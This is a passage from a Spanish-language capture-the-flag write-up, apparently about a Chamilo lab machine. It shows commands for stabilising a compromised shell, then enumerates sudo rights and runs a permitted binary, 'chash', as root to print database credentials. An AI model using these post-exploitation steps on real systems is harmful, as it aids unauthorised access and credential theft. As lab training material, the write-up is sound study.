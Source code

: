 Vamos a sanitizar la shell.

### Sanitizacion de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for trr0r on 7cd57fc28af5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trr0r may run the following commands on 7cd57fc28af5:
    (ALL) NOPASSWD: /usr/bin/chash
```

Vemos que podemos ejecutar el binario `chash` como el usuario `root`, por lo que vamos a probar a realizar lo siguiente:

```shell
sudo /usr/bin/chash db:show_conn_info
```

Info:

```
PHP Warning:  "continue" targeting switch is equivalent to "break". Did you mean to use "continue 2"? in phar:///usr/bin/chash/vendor/doctrine/orm/lib/Doctrine/ORM/UnitOfWork.php on line 2640
Are you sure you want to show the database connection info here? (y/N)y
Database connection details:
Host:   127.0.0.1
User:   trr0r
Pass:   admiñçtrr0r
DB:     chamilo
Connection string (add password manually for increased security:
mysql -h 127.0.0.1 -u trr0r -p chamilo
```
